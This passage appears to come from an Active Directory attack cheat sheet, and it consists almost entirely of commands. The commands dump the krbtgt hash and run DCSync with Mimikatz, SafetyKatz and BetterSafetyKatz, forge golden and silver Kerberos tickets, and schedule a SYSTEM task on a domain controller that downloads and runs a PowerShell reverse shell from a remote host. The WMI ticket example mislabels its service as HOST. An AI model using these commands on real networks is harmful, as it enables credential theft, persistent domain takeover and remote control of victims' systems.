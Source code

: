 ```
Load Mimikats.ps1
Now we can create a ticket using the DC krbtgt hash
Now we can access any service on the DC; Example ls \\dc-corp\C$
#OR
PsExec64.exe \\test.local -u Domain\user -p Passw0rd! cmd
```
### Execute mimikatz on DC as DA to get krbtgt hash
```
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername <computername>
```
### use DCSync to get AES key for krbtgt account
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<domain>\krbtgt"'
# OR
SafetyKatz.exe "lsadump::dcsync /user:dcrop\krbtgt" "exit"
```
### create a Golden ticket
```
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain> /sid:<domain sid> /krbtgt:<hash> id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
# OR
BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:<domain> /sid:<domain sid> /aes256:<aes256> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```
# Persistence - Silver Ticket
### Execute mimikatz on DC as DA to get krbtgt hash
```
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername dcorp-dc
```
### Make silver ticket for CIFS, below command provides access to shares on the DC
```
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain> /sid:<domain sid> /target:<target> /service:CIFS /rc4:<local computer hash> /user:Administrator /ptt"'
```
### Check Access (After CIFS silver ticket)
```
ls \\<servername>\c$\
```
### Make silver ticket for Host
```
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain> /sid:<domain sid> /target:<target> /service:HOST /rc4:<local computer hash> /user:Administrator /ptt"'
```
### Schedule and execute a task (After host a silver ticket)
```
schtasks /create /S dcorp-dc.dollarcorp.moneycorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://10.10.10.10:8080/Invoke-PowerShellTcp.psi''')'"

schtasks /Run /S ad.domain.local /TN "STCheck"
```
### Make a silver ticket for WMI
```
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain> /sid:<domain sid> /target:<target> /service:HOST /rc4:<local computer hash> /user:Administrator /ptt"'
```